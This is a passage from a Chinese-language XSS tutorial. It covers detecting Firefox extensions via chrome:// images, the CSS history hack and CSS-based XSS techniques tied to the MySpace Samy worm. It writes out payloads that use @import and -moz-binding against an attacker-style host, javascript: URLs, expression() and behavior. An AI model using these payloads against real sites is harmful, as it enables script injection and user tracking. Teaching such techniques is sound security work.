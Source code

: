 在 FireFox 中有一个特殊的协议 `chrome://`，FireFox 的扩展图标可以通过这个协议被访问到。比如 Flash Got 扩展的图标可以这样访问：`chrome://flashgot/skin/icon32.png`。因此扫描 FireFox 扩展时，只需要在 `JavaScript` 中加载这张图片检测扩展：

```javascript
var m = new Image();
m.onload = function(){ alert("Image Exists."); };
m.onerror = function(){ alert("Image not Exists."); };

m.src = "chrome://flashgot/skin/icon32.png";
```

### `CSS` History Hack

这个 XSS Payload 可以通过 CSS，来发现一个用户曾经访问过的网站。

这个技巧最早被 Jeremiah Grossman 发现，其原理是利用 style 的 visited 属性（如果用户访问过某个链接，则这个链接颜色会不同）。

但是这个漏洞在 2010 年已经被 Mozilla 浏览器修复。

### 获取用户的真实 IP

JavaScript 本身并没有提供获取本地 IP 地址的能力。一般来说，XSS 攻击需要借助第三方软件来完成。比如如果客户端安装了 Java 环境（`JRE`），那么 XSS 就可以通过调用 Java Applet 的接口获取客户端的本地 IP 地址。

### 利用 `CSS` 构造

在 2005 年，年仅 19 随的 Samy Kamkar 对 MySpace.com 发起的 XSS 攻击。就利用了这个方法进行构造。

MySpace 过滤了许多危险的 HTML 标签，只保留了 `<a>, <img>, <div>` 等安全的标签，所有的事件比如 `onclick` 等也被过滤了。允许用户控制标签的 style 属性，我们通过 style，还是有办法构造出 XSS 的。比如以下的这些方式：

1.  利用 `import` 形成 GET 请求：

    ```markup
    <style>@import 'http://hackers.org/xss.css';</style>
    ```
2.  通过 `moz-binding` 嵌入 `xml` 文件（这一特性[已被标准删除](https://docs.w3cub.com/css/-moz-binding/%3E)）：

    ```markup
    <style>body{-moz-binding: url("http://hackers.org/xssmoz.xml#xss")}</style>
    ```
3.  通过请求背景图片或一些资源，通过伪协议执行 `javascript` 代码：

    ```markup
    <div style="background:url{'javascript:alert(1)'}" />
    ```
4.  通过表达式构造 XSS:

    ```markup
    <div style="width: expression(alert('xss'))" />
    ```
5.  通过 `behavior` 关键字执行 `javascript` 代码：

    ```markup
    <div style="behavior: url(xss.htc)" />
    ```
